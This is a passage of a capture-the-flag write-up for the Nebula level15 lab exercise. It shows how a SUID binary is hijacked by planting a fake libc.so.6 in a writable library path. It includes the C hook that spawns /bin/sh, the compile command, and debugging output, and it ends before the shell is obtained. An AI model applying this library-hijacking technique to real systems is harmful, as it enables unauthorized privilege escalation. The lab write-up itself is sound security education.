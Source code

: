 The next step is to find out what functions for `libc.so.6` the `flag15` binary
uses so we can find an appropriate function to hook.

```shell
level15@nebula:~$ objdump -R /home/flag15/flag15

/home/flag15/flag15:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   puts
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
```

`__libc_start_main` seems like a good function to hook. The purpose of the
function is to initialize the process before calling `main()` and so will be
called before anything in the program runs. This reduces the likelihood of
something going wrong with our exploit.

We write a `fake.c` and attempt to compile and use it.

```c
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    system("/bin/sh");
}
```

```shell
level15@nebula:~$ gcc -shared -fPIC -o /var/tmp/flag15/libc.so.6 /home/level15/fake.c
level15@nebula:~$ /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

To debug this error, we make a copy of the binary without the SUID bit set and
run it with `LD_DEBUG`.

```shell
level15@nebula:~$ cp /home/flag15/flag15 /home/level15/flag15
level15@nebula:~$ LD_DEBUG=all /home/level15/flag15
... snip ...
      3207:     checking for version `GLIBC_2.0' in file /var/tmp/flag15/libc.so.6 [0] required by file /home/level15/flag15 [0]
      3207:     /var/tmp/flag15/libc.so.6: error: version lookup error: no version information available (required by /home/level15/flag15) (continued)
/home/level15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/level15/flag15)
      3207:     checking for version `GLIBC_2.0' in file /var/tmp/flag15/libc.so.6 [0] required by file /var/tmp/flag15/libc.so.6 [0]
      3207:     /var/tmp/flag15/libc.so.6: error: version lookup error: no version information available (required by /var/tmp/flag15/libc.so.6) (continued)
/home/level15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
      3207:     checking for version `GLIBC_2.1.3' in file /var/tmp/flag15/libc.so.6 [0] required by file /var/tmp/flag15/libc.so.6 [0]
      3207:     /var/tmp/flag15/libc.so.6: error: version lookup error: no version information available (required by /var/tmp/flag15/libc.so.6) (continued)
/home/level15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md